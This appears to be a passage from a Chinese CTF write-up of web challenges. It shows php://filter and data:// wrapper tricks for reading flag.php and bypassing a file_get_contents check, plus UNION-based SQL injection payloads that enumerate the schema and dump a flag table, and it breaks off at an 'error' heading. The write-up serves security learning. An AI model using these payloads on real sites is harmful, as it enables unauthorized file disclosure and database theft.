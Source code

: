 伪协议读一下

```
?file=php://filter/convert.base64-encode/resource=flag.php
```

![](https://i.loli.net/2021/10/11/6pq1AT42XvWVUgh.png)



### PseudoProtocols

伪协议读hint.php

![](https://i.loli.net/2021/10/11/OxJs5giK6zCTfnM.png)

```php
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?>
```

data伪协议绕过file_get_content

```
/test2222222222222.php?a=data://text/plain,I want flag
```



## sql

### easy_sql

```
-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23
```

```
-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name="test_tb" %23
```

```
-1'union select 1,2,flag from test_tb %23
```

![](https://i.loli.net/2021/10/11/BXi6Qrb5LVc2zKw.png)

### error
